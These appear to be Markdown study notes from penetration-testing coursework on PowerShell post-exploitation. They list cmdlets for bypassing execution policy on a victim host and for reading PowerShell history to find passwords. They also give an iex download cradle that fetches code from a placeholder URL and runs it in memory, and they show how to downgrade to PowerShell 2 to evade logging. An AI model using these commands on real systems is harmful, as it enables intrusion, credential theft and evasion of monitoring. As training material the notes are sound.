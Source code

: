 | Cmd-Let                                                                                                                   | Description                                                                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Get-Module                                                                                                                | Lists available modules loaded for use.                                                                                                                                                                                                     |
| Get-ExecutionPolicy -List                                                                                                 | Will print the execution policy settings for each scope on a host.                                                                                                                                                                          |
| Set-ExecutionPolicy Bypass -Scope Process                                                                                 | This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Get-ChildItem Env: \| ft Key,Value                                                                                        | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                              |
| Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt                                  | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                     |
| powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); </follow-on commands>" | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                      |
## Downgrade Powershell -- version 2 doesnt have logging, version 3 does.

```PowerShell
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
InstanceId       : 121b807c-6daa-4691-85ef-998ac137e469
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expand-GitCommand...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PSReadLineKeyHandler...
```
# Checking Defenses
### Firewall Checks